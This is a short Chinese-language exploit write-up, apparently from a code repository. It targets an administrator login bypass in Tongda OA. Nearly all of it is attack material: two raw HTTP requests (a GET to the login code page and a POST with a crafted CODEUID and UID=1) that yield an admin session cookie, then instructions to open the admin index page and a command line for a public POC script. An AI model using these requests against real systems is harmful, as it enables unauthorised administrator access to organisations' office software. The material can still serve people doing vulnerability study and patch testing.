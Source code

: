 0x00 发送第一个请求包

```
GET /general/login_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Accept-Encoding: gzip
```

0x01 发送第二个请求包


```
POST /logincheck_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 56
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
CODEUID=%7BD384F12E-A758-F44F-8A37-20E2568306A7%7D&UID=1


```

获取cookie后访问管理员页面 /general/index.php
------------

可以利用工具获取cookie
借助工具：https://github.com/NS-Sp4ce/TongDaOA-Fake-User/blob/master/POC.py

python3 POC.py -v 2017 -url http://xxxxxxxxxxxxxxxxxxxxxx
